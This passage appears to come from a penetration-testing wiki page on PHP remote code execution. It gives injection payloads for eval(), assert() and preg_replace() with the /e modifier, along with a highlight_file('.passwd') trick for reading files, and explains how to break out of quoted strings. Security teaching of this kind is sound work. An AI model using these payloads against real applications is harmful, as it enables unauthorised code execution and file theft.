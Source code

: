{{#ref}}
php-ssrf.md
{{#endref}}

## Code execution

**system("ls");**\
&#xNAN;**\`ls\`;**\
**shell_exec("ls");**

[Check this for more useful PHP functions](php-useful-functions-disable_functions-open_basedir-bypass/)

### **RCE via** **preg_replace()**

```php
preg_replace(pattern,replace,base)
preg_replace("/a/e","phpinfo()","whatever")
```

To execute the code in the "replace" argument is needed at least one match.\
This option of preg_replace has been **deprecated as of PHP 5.5.0.**

### **RCE via Eval()**

```
'.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>
```

### **RCE via Assert()**

This function within php allows you to **execute code that is written in a string** in order to **return true or false** (and depending on this alter the execution). Usually the user variable will be inserted in the middle of a string. For example:\
`assert("strpos($_GET['page']),'..') === false")` --> In this case to get **RCE** you could do:

```
?page=a','NeVeR') === false and system('ls') and strpos('a
```

You will need to **break** the code **syntax**, **add** your **payload**, and then **fix it again**. You can use **logic operations** such as "**and" or "%26%26" or "|"**. Note that "or", "||" doesn't work because if the first condition is true our payload won't get executed. The same way ";" doesn't work as our payload won't be executed.

**Other option** is to add to the string the execution of the command: `'.highlight_file('.passwd').'`

**Other option** (if you have the internal code) is to modify some variable to alter the execution: `$file = "hola"`

### **RCE via usort()**
